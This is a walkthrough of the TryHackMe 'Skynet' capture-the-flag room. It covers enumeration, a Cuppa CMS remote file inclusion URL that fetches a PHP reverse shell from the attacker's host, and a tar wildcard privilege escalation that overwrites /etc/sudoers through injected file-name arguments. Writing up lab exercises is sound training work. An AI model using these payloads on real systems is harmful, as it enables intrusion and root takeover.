








Skynet Writeup
TryHackMe - Skynet
This room continues my journey down the Offensive Security Path on TryHackMe. This is a Terminator themed room, and I’m excited to see what’s in store.
nmap scan
The first step is to run a typical nmap scan on the box to see what services are running. Here’s the reults of the scan.
nmap -sC -sV -oN nmap/skynet_scan.txt 10.10.134.55
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-05 22:04 CDT
Nmap scan report for 10.10.134.55
Host is up (0.20s latency).
Not shown: 991 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
| 256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_ 256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open pop3 Dovecot pop3d
|_pop3-capabilities: UIDL TOP SASL AUTH-RESP-CODE CAPA PIPELINING RESP-CODES
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open imap Dovecot imapd
|_imap-capabilities: ENABLE more LOGIN-REFERRALS listed post-login IDLE Pre-login ID capabilities LOGINDISABLEDA0001 LITERAL+ have OK IMAP4rev1 SASL-IR
445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1296/tcp filtered dproxy
1999/tcp filtered tcp-id-port
2100/tcp filtered amiganetfs
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: 1h40m14s, deviation: 2h53m12s, median: 13s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
| OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
| Computer name: skynet
| NetBIOS computer name: SKYNET\x00
| Domain name: \x00
| FQDN: skynet
|_ System time: 2020-09-05T22:05:03-05:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-09-06T03:05:03
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.22 seconds
Looks like we’ve got ssh, http, as well as smb and imap. It also appears that the system is running linux.
SMB Enumeration
There’s a lot to look at but the first thing I think is interesting is the smb, but I’m going to run enum4linux to gain some initial knowledge about the shares among other things like usernames.

As we can see there’s an anonymous smb share that we can access. Using smbmap we can see what’s all located inside of the anonymous file share. From there we can see a file called attention.txt.

cat 10.10.29.100-anonymous_attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
The other interesting thing is the directory labeled logs. It contains three files, but it appears that only one of the files, log1.txt, has anything in it. Opening up the log1.txt reveals a list of what looks like passwords.
Web Enumeration
After trying the passwords on user milesdyson’s smb share and getting no luck. I tried my hand at the website running on port 80. I ran gobuster and the site and got the following in return:
/admin (Status: 301)
/css (Status: 301)
/js (Status: 301)
/config (Status: 301)
/ai (Status: 301)
/squirrelmail (Status: 301)
The admin page got us nowhere, but the squirrelmail page redirected to a login. Let’s see if burpsuite can get us into milesdyson’s email.

cyborg007haloterminator looks promising because the response is different from the others. Trying it gains us access to milesdyson’s email which has a very interesting email about an smb password reset.

The password for his smb share is )s{A&2Z=F^n_E.B`. We can login to the smbshare with milesdyson’s creds by typing in:
smbclient //10.10.132.87/milesdyson -U milesdyson
followed by his password. Inside we see quite the list of pdfs on neural nets and the like. Anyway, there is a directory called notes that looks promising. We can cd into that and see all kinds of crazy notes, but one of them is important.txt. We can grab that file with get important.txt. The file contains:
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
This to-do list shows us that the website has a beta CMS (content management system). That’s always a good place to look as an attacker. Navigating to the directory shows us:

Nothing much going on here either on the page itself or in the source code. I think it’s time to run gobuster and see what we can find out.
gobuster dir -u http://10.10.132.87/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o skynet_miles_gobuster.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.132.87/45kra24zxs28v3yd/
[+] Threads: 100
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
2020/09/09 13:41:25 Starting gobuster
===============================================================
/administrator (Status: 301)
===============================================================
2020/09/09 13:48:46 Finished
===============================================================
The only directory that gobuster got a hit on was administrator so we’ll take a look there. Once we get there we’re greeted with a login to Cuppa CMS. Researching Cuppa CMS reveals some vulnerabilities. The most enticing is the remote file inclusion. We can add this to our cuppa loin url in order to call back a shell to our attacking machine.
http://10.10.141.144/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacking-ip>:<port>/php-reverse-shell.php

Once on the victim machine I figured out that I can quickly switch to user milesdyson with the password recovered from before. From here it’s an easy grab for user.txt. There’s also something interesting going on with the backup script. Checking out crontab it appears to be running every 30 seconds. We should try to hijack this and get a reverse shell as root.

That tar command looks enticing. If we cd into the /var/www/html we can construct a script that allows the user milesdyson to run all commands as sudo. As it turns out only the www-data user can write to that directory soooo time to switch back to that user and run the following commands (idea for priv esc came from GTFOBins and from this article from int0x33).
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1
After 30 seconds we can run our typical sudo -l command and see that we’re able to run any command as sudo without a password.
